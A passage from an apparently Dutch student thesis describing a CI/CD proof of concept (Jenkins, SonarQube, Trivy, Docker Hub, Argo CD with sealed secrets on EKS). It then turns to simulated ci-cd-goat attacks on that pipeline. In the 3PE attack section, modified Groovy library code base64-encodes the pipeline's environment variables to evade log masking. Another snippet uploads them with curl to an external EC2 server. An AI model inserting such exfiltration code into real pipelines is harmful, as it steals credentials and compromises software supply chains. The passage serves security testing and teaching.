\end{lstlisting}

\vspace{0.5cm}
De Java-pipeline maakt gebruik van qualitygates om te bepalen of de code kan worden gebouwd of niet. Door gebruik te maken van de eerder ingestelde SonarQube-webhook, kan SonarQube communiceren met Jenkins en beslissen of het buildproces kan worden voortgezet. 
\newline

De Groovy code die gebruikt wordt om de Java code te scannen staat hieronder:
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  waitForQualityGate abortPipeline: false, credentialsId: credentialId
\end{lstlisting}

\vspace{0.5cm}
Na alle tests kan de applicatie gebouwd worden met het volgende commando.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  mvn clean install
\end{lstlisting}

\vspace{0.5cm}
In de volgende fase van de pipeline wordt de Java-applicatie omgezet naar een Docker-image. De Docker-image wordt voorzien van twee tags. Een tag die de versie aangeeft en een tag met de waarde "Latest". Deze tags zullen in de laatste stappen gebruikt worden door de CD-pipeline om een nieuwe versie van de container uit te rollen op de EKS-cluster.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  docker image build -t ${hubUser}/${project} .
  docker image tag ${hubUser}/${project} ${hubUser}/${project}:${ImageTag}
  docker image tag ${hubUser}/${project} ${hubUser}/${project}:latest
\end{lstlisting}

\vspace{0.5cm}
Het is de bedoeling om de image te sturen naar een private Docker container registry. Daarom is er een stap aanwezig in de pipeline die het mogelijk maakt te authenticeren met Dockerhub.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  echo ${hubAccessToken} | docker login -u ${hubUser} --password-stdin
\end{lstlisting}

\vspace{0.5cm}
Een laatste controle die uitgevoerd wordt in deze pipeline, is een controle op kwetsbaarheden in de Docker image. Indien kwetsbaarheden van de aard HIGH of CRITICAL voorkomen zal het bouwproces van de applicatie falen. De basis image die gebruik wordt in deze POC, is gescanned door sneak.io waardoor deze image dus geen grote kwetsbaarheden bevat.
\newline

Deze code voert een scan uit op een Docker container en produceert een rapport waarin de kwetsbaarheden van de Docker-image worden gedocumenteerd:
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  # scanning of the docker image
  trivy image --no-progress --format template --template "@/home/ubuntu/html.tpl" -o cve_report.html --exit-code 1 --severity HIGH,CRITICAL ${hubUser}/${project}:latest
  
  # archiving the artifact
  archiveArtifacts artifacts: "cve_report.html", fingerprint: true

            publishHTML (target: [
                allowMissing: false,
                alwaysLinkToLastBuild: false,
                keepAll: true,
                reportDir: '.',
                reportFiles: 'cve_report.html',
                reportName: "CVE Report"
            ])
\end{lstlisting}

\vspace{0.5cm}
De laatste stap in de pipeline zorgt ervoor dat de image naar Dockerhub gepusht wordt.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  docker image push ${hubUser}/${project}:${ImageTag}
  docker image push ${hubUser}/${project}:latest
\end{lstlisting}

\vspace{0.5cm}
Na het overlopen van alle stappen worden de Docker login gegevens verwijderd. Het volledige pipeline bestand dat gebruikt wordt om de Java applicatie op te bouwen, kan teruggevonden worden in het hoofdstuk \ref{sec:Pipeline bestand voor het bouwen van de java applicatie} van de bijlagen.

\subsection{\IfLanguageName{dutch}{Bouwstenen van de CD-pipeline}
{Components of the CD-pipeline}}
\label{sec:Bouwstenen van de CD-pipeline}

In het CD-gedeelte van de Java-pipeline wordt de GitOps-aanpak gevolgd en worden de gebruikte secrets versleuteld. Voor de implementatie van de CD-pipeline wordt Argo CD gebruikt. De aanpak die gevolgd wordt om de CD-pipeline op te zetten is deze van \textcite{Putra2023}. In deze video reeks wordt beschreven hoe deze software gebruikt kan worden.
\newline

Telkens wanneer een nieuwe versie van de Docker-image beschikbaar is in de container registry, wordt een nieuwe versie van de Java-applicatie uitgerold. Dit stroomlijnt en automatiseert het implementatieproces, waardoor de applicatie altijd up-to-date is met de nieuwste versie van de Docker-image.
\newline

Figuur \ref{fig:CDpipe} geeft een overzicht van hoe de CD-pipeline is opgebouwd.

\begin{figure}[H]
  
\includegraphics[scale=0.35]{graphics/CDpipe.png}
\caption{\label{fig:CDpipe} De CD-pipeline die gebruikt wordt.}
\end{figure}

\subsubsection{\IfLanguageName{dutch}{Onderdelen van de CD-pipeline}
{Components of the CD-pipeline}}
\label{sec:Onderdelen van de CD-pipeline}

Voor een pipeline job aangemaakt kan worden in Argo CD, moet eerst met de EKS-cluster geconnecteerd worden. Door gebruik te maken van AWS cli en een gebruiker met voldoende rechten, kan geconnecteerd worden met deze cluster. Het volgende commando wordt gebruikt om de cluster aan te spreken.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
aws eks --region [regio waar de cluster wordt uitgevoerd] update-kubeconfig --name [cluster naam] --profile [aws credentials profiel in .aws folder]
\end{lstlisting}

\vspace{0.5cm}
Met behulp van kubectl wordt port forwarding gebruikt om de grafische gebruikersinterface van Argo CD beschikbaar te maken. Hieronder volgt de uitvoering van de port forwarding via kubectl.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  kubectl port-forward svc/Argo CD-server -n Argo CD 8080:80
\end{lstlisting}

\vspace{0.5cm}
Voordat Argo CD gebruikt om applicaties uit te rollen, is het belangrijk om het standaardwachtwoord te wijzigen. Met behulp van het onderstaande bash-commando kan het initiële wachtwoord worden verkregen en kan er ingelogd worden in Argo CD. Vervolgens kan het wachtwoord worden gewijzigd in de grafische gebruikersinterface.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  kubectl -n Argo CD get secret Argo CD-initial-admin-secret -o jsonpath="{.data.password}" | base64 -d 
\end{lstlisting}

\vspace{0.5cm}
Omdat er gebruik wordt gemaakt van een private GitHub repository en een private Docker Hub registry moeten er een aantal secrets aangemaakt worden. Alle secrets die gebruikt worden in de CD-pipeline zijn omgevormd tot sealed secrets. Het certificaat dat gebruikt wordt voor deze encryptie kan geraadpleegd worden door de logs te bekijken van de sealed secrets pod. Volgende secrets worden geëncrypteerd.

\begin{itemize}
  \item Een private key secret om met de private GitHub repository te connecteren.
  \item Een Docker token secret zodat de image updater gebruik kan maken van een private repository.
  \item Een Docker config json zodat er bij het uitrollen van een nieuwe applicatie gebruik gemaakt kan worden van de private docker repository
\end{itemize}
\clearpage

De eerste twee secrets worden aangemaakt op basis van de Kubernetes documentatie voor het creeëren van secrets. Templates voor het maken van deze eerst twee secrets zijn te vinden in de bijlagen hoofdstuk \ref {sec:Sealed secrets templates voor de CD pipeline}. Voor de laatste secret wordt sealed secrets gebruikt om het sealed bestand aan te maken met onderstaand commando.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  kubectl create secret docker-registry dockerconfigjson -n staging --docker-server="https://index.docker.io/v1/" --docker-username=[username]--docker-password=[docker token] --docker-email=[e-mail] --output json --dry-run | kubeseal --scope cluster-wide --cert [certificate location] --format yaml > mysealedsecret.yml
\end{lstlisting}

\vspace{0.5cm}

De Argo CD-pipeline wordt gedefinieerd in een YAML-bestand. De eerste regels van het bestand bepalen de naam van de applicatie in de Argo CD-pipeline en in welke namespace deze pipeline wordt uitgevoerd. Door gebruik te maken van annotaties wordt aangegeven dat de image-updater wordt gebruikt. De ''~v0.1'' zorgt ervoor dat bij elke kleine update de applicatie wordt uitgerold in de staging-omgeving. De write-back-methode zorgt ervoor dat Argo CD een commit maakt wanneer er een nieuwe image wordt gevonden in de private Docker-registry.
\newline

De ''finalizers'' optie zorgt ervoor dat de pipeline-jobs niet zomaar kunnen worden verwijderd in de grafische gebruikersinterface. Het ''spec-blok'' legt de bron en bestemming vast, evenals eventuele extra opties die worden gebruikt wanneer de job wordt uitgevoerd. In deze configuratie wordt een kustomization-bestand opgehaald vanaf een private GitHub-server. Dit bestand wordt ingelezen en alle componenten worden opgebouwd om uiteindelijk een service te laten draaien op de cluster.
\newline

Deze besproken configuratie ziet er dan als volgt uit:
\newline

\begin{lstlisting}[language=yaml, style=yamlstyle]
  ---
  apiVersion: argoproj.io/v1alpha1
  kind: Application
  metadata:
    name: my-app
    namespace: Argo CD
    annotations:
      Argo CD-image-updater.argoproj.io/image-list: victorwillem/my_maven_app:~v0.1
      Argo CD-image-updater.argoproj.io/write-back-method: git
    finalizers:
      - resources-finalizer.Argo CD.argoproj.io
  spec:
    project: default
    source:
      repoURL: ssh://git@GitHub.com/VictorVanhoorenHogent/testArgo CD.git
      targetRevision: main
      path: environments/staging/my-app
    destination:
      server: https://Kubernetes.default.svc
    syncPolicy:
      automated:
        prune: true
        selfHeal: true 
        allowEmpty: false
      syncOptions:
        - Validate=true
        - CreateNamespace=false
        - PrunePropagationPolicy=foreground
        - PruneLast=true
\end{lstlisting}


\subsection{\IfLanguageName{dutch}{De CI/CD-pipeline in werking}
{The CI/CD-pipeline in action}}
\label{sec:De CI/CD-pipeline in werking}

Hieronder wordt een overzicht gegeven van hoe de CI/CD-pipeline functioneert, met verschillende stappen en bijbehorende afbeeldingen die de voortgang illustreren.

\begin{enumerate}
  \item De succesvolle uitvoering van de CI-pipeline is zichtbaar in figuur \ref{fig:Cipipesuc}. Figuur \ref{fig:newdockerimage} toont de private Docker-containerregister wanneer er een nieuwe image naar Docker Hub wordt gepusht.
  \begin{figure}[H]
    
\includegraphics[scale=0.35]{graphics/CIpipelineSuc.png}
  \caption{\label{fig:Cipipesuc} Een nieuwe build is uitgevoerd.}
  \end{figure}
  
  \begin{figure}[H]
    
\includegraphics[scale=0.50]{graphics/newtagdockerimage.png}
  \caption{\label{fig:newdockerimage} Een nieuwe Docker image verschijnt op Docker Hub.}
  \end{figure}
  
  \item Image updater neemt deze verandering waar in de Docker container registry en maakt een nieuwe commit in de repository die gebruikt wordt om de applicatie op te bouwen. Hieronder worden de logs weergegeven van de image updater.
  \newline
  
  \begin{lstlisting}[language=bash, style=bashstyle]
    time="2023-05-09T21:42:36Z" level=info msg="Starting image update cycle, considering 1 annotated application(s) for update"
    time="2023-05-09T21:42:37Z" level=info msg="Setting new image to victorwillem/my_maven_app:v0.1.1" alias= application=my-app image_name=victorwillem/my_maven_app image_tag=v0.1.0 registry=
    time="2023-05-09T21:42:37Z" level=info msg="Successfully updated image 'victorwillem/my_maven_app:v0.1.0' to 'victorwillem/my_maven_app:v0.1.1', but pending spec update (dry run=false)" alias= application=my-app image_name=victorwillem/my_maven_app image_tag=v0.1.0 registry=
    time="2023-05-09T21:42:37Z" level=info msg="Committing 1 parameter update(s) for application my-app" application=my-app
    time="2023-05-09T21:42:37Z" level=info msg="Starting configmap/secret informers"
    time="2023-05-09T21:42:37Z" level=info msg="Configmap/secret informer synced"
    time="2023-05-09T21:42:37Z" level=info msg="secrets informer cancelled"
    time="2023-05-09T21:42:37Z" level=info msg="configmap informer cancelled"
    time="2023-05-09T21:42:37Z" level=info msg="Initializing ssh://git@GitHub.com/VictorVanhoorenHogent/testArgo CD.git to /tmp/git-my-app2029001143"
  \end{lstlisting}
  \clearpage

  \vspace{0.5cm}
  Door het toevoegen van volgende code aan de repository wordt de image overschreven met de laatste versie:
  \newline

  \begin{lstlisting}[language=yaml, style=yamlstyle]
    kustomize:
    images:
    - victorwillem/my_maven_app:v0.1.1
  \end{lstlisting}
  
  \vspace{0.5cm}
  \item Het synchronisatie proces start en een nieuwe versie van de applicatie wordt uitgerold op de cluster. Na het synchroniseren wordt de ArgoCD-pipeline weergegeven in figuur \ref{fig:newargojob}. Daarnaast toont figuur \ref{fig:newimage} de nieuwe container die momenteel draait op het cluster.
  
  \begin{figure}[H]
    
\includegraphics[scale=0.38]{graphics/newcycle0.1.1.png}
  \caption{\label{fig:newargojob} De job wordt uitgevoerd met de laatste veranderingen.}
  \end{figure}

  \begin{figure}[H]
    
\includegraphics[scale=0.48]{graphics/0.1.1newimage.png}
  \caption{\label{fig:newimage} Een nieuwe versie van de docker image draait op de cluster.}
  \end{figure}
\end{enumerate}

\section{\IfLanguageName{dutch}{Aanvallen op de POC omgeving}
{Attacks on the POC environment}}
\label{sec:Aanvallen op de POC omgeving}

Binnen het CI-gedeelte van de pipeline worden verschillende aanvallen uitgevoerd om de beveiliging te testen. De aanvallen die uitgevoerd worden, zijn degene die beschreven staan in de challenges van de ci-cd goat repository. \autocite{Cider2022} De aanvallen zijn aangepast zodat deze uitgevoerd kunnen worden op de POC. Deze aanvallen zijn gericht op het stelen van geheime informatie, zoals secrets. Ze stellen ons in staat om kwetsbaarheden te identificeren en de potentiële impact ervan op een organisatie te begrijpen. In de volgende secties worden de verschillende aanvalsscenario's uitgelegd, inclusief de aspecten van de configuratie die onjuist zijn. Bovendien worden aanbevelingen gegeven om deze aanvallen te voorkomen en de beveiliging te verbeteren.
\newline
     
De aanvallen worden uitgevoerd op de Python- en de Java-pipelines. Om verschillende scenario's te kunnen uitvoeren worden de pipeline bestanden aangepast. Om een development omgeving na te bootsen wordt gebruik gemaakt van een GitHub organisatie met twee leden. Het ene lid is de eigenaar en het andere lid is een developer die meewerkt aan de verschillende projecten. Op die manier kan er gesimuleerd worden wat voor toegang een malicious actor zou hebben.
\newline

De initiële stap om toegang te krijgen tot de omgeving wordt niet beschreven in deze POC. Via phishing en verkenning van de omgeving wordt meestal genoeg informatie verzameld om de aanval te starten. Bij deze aanvallen is de threat actor in bezit van developer credentials.
\clearpage

\subsection{\IfLanguageName{dutch}{Globale impact van aanvallen op de pipeline}
{Globale impact van aanvallen op de pipeline}}
\label{sec:Impact}
\begin{mdframed}
  \begin{itemize}
    \item De aanvaller kan alle variabelen uitlezen die gebruikt worden in de pipeline.
    \item Als de pipeline geconnecteerd is met andere services via tokens en andere secrets verkrijgt de aanvaller ook toegang tot deze services.
    \item Een pipeline kan gebruik maken van andere servers. Deze geheime informatie die nodig is om met externe servers te connecteren, kan gestolen worden bij deze aanval.
    \item Naast enkel het stelen van omgevingsvariabelen kan een aanvaller ook kwaadaardige code verder sturen in de pipeline.
    \item De aanvaller kan de pipeline gebruiken om malware of andere schadelijke code te verspreiden naar verschillende delen van de organisatie, waardoor de beveiliging van de hele omgeving in gevaar komt.
    \item De aanval kan leiden tot het stilleggen van de productieomgeving en zo de werking van de organisatie belemmeren, wat kan leiden tot aanzienlijke financiële verliezen en reputatieschade.
  \end{itemize}
\end{mdframed}

\vspace{0.5cm}
Om deze algemene principes te illustreren, worden enkele aanvallen meer in detail uitgevoerd en besproken.

\subsection{\IfLanguageName{dutch}{3PE-aanval}
{3PE-aanval}}
\label{sec:3PE}

De pipelines die worden gebruikt voor de aanvallen zijn geconfigureerd als multibranch pipelines die automatisch pull requests (PR)s bouwen. Voor de eerste aanval is de pipeline geconfigureerd om de hoofdbranch (main branch) en PR te bouwen door middel van filters. Daarnaast worden PRs van externe forks ook toegestaan en starten deze automatisch een nieuwe bouwopdracht.
\newline 

Bij de 3PE-aanval wordt misbruik gemaakt van een GitHub repository die publiek is. Het Jenkins bestand om de Java applicatie op te bouwen maakt echter gebruik van een Groovy library om de pipeline code te vereenvoudigen, maar deze code is beschikbaar voor iedereen. Een threat actor kan deze code dus manipuleren en zo interessante gegevens ontfutselen. Hoe de omgeving is opgebouwd wordt weergegeven aan de hand van figuur \ref{fig:3PE-aanval}.
\clearpage

Voor de aanvaller zijn slag kan slaan zal hij eerst de omgeving moeten verkennen. Via GitHub en Google dorking kan de aanvaller mogelijke doelwitten verzamelen. Eens de aanvaller de publieke repository vindt, onderzoekt hij het groter geheel waarin deze repository gebruikt wordt. Via phishing of andere manieren weet de aanvaller toegang te verkrijgen tot de pipeline die gebruikt wordt om de Java applicatie te bouwen. Mocht de aanvaller de logs van de pipeline niet kunnen bekijken, kan er nog altijd gebruik gemaakt worden van deze aanval. De aanvaller zal dan de output doorsturen naar een server in zijn bezit. 
\newline

\begin{figure}[H]
  
\includegraphics[scale=0.35]{graphics/Attack1.png}
\caption{\label{fig:3PE-aanval} 3PE aanval op de Java-pipeline.}
\end{figure}

De aanval begint met het wijzigen van de code in de openbare repository. Dit wordt gedaan zonder het normale verloop van de pipeline te verstoren. Om dit te bereiken, voegt de aanvaller extra code toe aan een van de stappen in de Groovy-bibliotheek die in de pipeline wordt gebruikt.
\newline

Afhankelijk van hoe secrets worden gebruikt in de pipeline, kiest de aanvaller de meest geschikte locatie om gegevens te extraheren. Aangezien secrets worden gebruikt als omgevingsvariabelen in de pipeline, kan de aanvaller veel interessante gegevens verzamelen.
\clearpage

Hoewel een groot deel van de secrets afkomstig is van AWS Secrets Manager, is de secret om de Docker-image naar DockerHub te pushen beschikbaar op het systeem tijdens het maken van de Docker-image. De aanvaller kan dus profiteren van deze misconfiguratie en de geheime informatie extraheren. Door het verkrijgen van deze geheime informatie, verkrijgt de aanvaller de rechten om Docker-images naar de private container registry te pushen.
\newline

Onderstaande code fragment wordt gebruikt om de omgevingsvariabelen van de pipeline uit te lezen. Het tweede code fragment kan gebruikt worden wanneer de logs niet zomaar uitgelezen kunnen worden en er dus een externe sever nodig is om de output te verzamelen.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  def call (String hubUser, String hubAccessToken ) {
    sh """
    echo ${hubAccessToken} | docker login -u ${hubUser} --password-stdin
    env | base64
    """
}
\end{lstlisting}

\vspace{0.5cm}
Doordat secrets gemaskereerd worden in de pipeline logs, wordt de base-64 tool gebruikt die beschikbaar is binnen een linux systeem.
\newline

\vspace{0.5cm}
\begin{lstlisting}[language=bash, style=bashstyle]
  def call (String hubUser, String hubAccessToken ) {
    sh """
    echo ${hubAccessToken} | docker login -u ${hubUser} --password-stdin
    """
    sh 'env > env && curl -F "files=@env" http://ec2-16-16-75-127.eu-north-1.compute.amazonaws.com:8080/upload'

}
\end{lstlisting}

\vspace{0.5cm}
Nadat de gedeelde Groovy-library is aangepast, zorgt de aanvaller ervoor dat er een nieuwe bouwopdracht wordt gestart door het sturen van een PR. Er is geen manuele controle op de PR wat er voor zorgt dat een nieuwe bouwopdracht in de wachtrij geplaatst wordt. 
\clearpage

Volgende commando's tonen hoe de aanvaller een nieuwe branch aanmaakt, genaamd testbranch1.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
git branch testbranch1

git checkout testbranch1

git add .

git commit -m "changes"

git push --set-upstream origin testbranch1
\end{lstlisting}

\vspace{0.5cm}
Als de aanvaller toegang heeft tot de logs, krijgt hij hetgeen te zien is op figuur \ref{fig:blurred}.

\begin{figure}[H]
  
\includegraphics[scale=0.60]{graphics/blurredoutput.png}
\caption{\label{fig:blurred} Output wanneer de CI-pipeline uitgevoerd wordt.}
\end{figure}

Als de aanvaller geen toegang heeft tot de logs, maakt hij gebruik van een webserver om de output te bekijken zoals weergegeven in figuur \ref{fig:webserverat1}.

\begin{figure}[H]
